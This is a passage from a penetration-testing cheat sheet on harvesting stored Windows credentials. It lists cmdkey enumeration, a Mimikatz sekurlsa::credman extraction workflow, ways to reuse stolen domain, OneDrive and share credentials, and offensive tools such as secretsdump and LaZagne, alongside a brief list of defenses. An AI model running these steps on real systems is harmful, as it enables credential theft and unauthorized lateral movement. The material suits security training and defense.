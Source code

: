 ### Manual Credential Hunting

### Manual Credential Export
```cmd
# Open Credential Manager GUI
rundll32 keymgr.dll,KRShowKeyMgr

# Export credentials to .crd file (password-protected)
# Can be imported on other Windows systems
```

### Common Credential Targets
- **OneDrive** - Microsoft account credentials
- **Domain accounts** - Cached domain user passwords
- **Network resources** - UNC paths, shared folders
- **VPN connections** - Saved VPN credentials
- **RDP connections** - Saved RDP passwords
- **Web applications** - Browser-saved passwords

### Credential Manager Attack Workflow
```cmd
# 1. Enumerate stored credentials
cmdkey /list

# 2. Check for interesting targets
# Look for Domain:interactive entries
# Look for network resource credentials

# 3. Extract credentials with Mimikatz
mimikatz.exe
privilege::debug
sekurlsa::credman

# 4. Use extracted credentials
# For domain accounts: Use for lateral movement
# For OneDrive: Access cloud storage
# For network resources: Access shared folders
```

### Defense Considerations
- **Credential Guard** - Protects DPAPI master keys in secure enclaves
- **DPAPI protection** - Credentials encrypted with user-specific keys
- **AES encryption** - Policy.vpol files use AES-128/256
- **Virtualization-based Security** - Modern Windows protection

## Tools Summary

### Extraction Tools
- **reg.exe** - Windows registry export
- **secretsdump.py** - Impacket hash extraction
- **NetExec** - Remote hash dumping
- **Mimikatz** - Memory and registry dumping
- **cmdkey** - Credential Manager enumeration
- **LaZagne** - Multi-platform password recovery
- **Kerbrute** - Kerberos username enumeration and password attacks
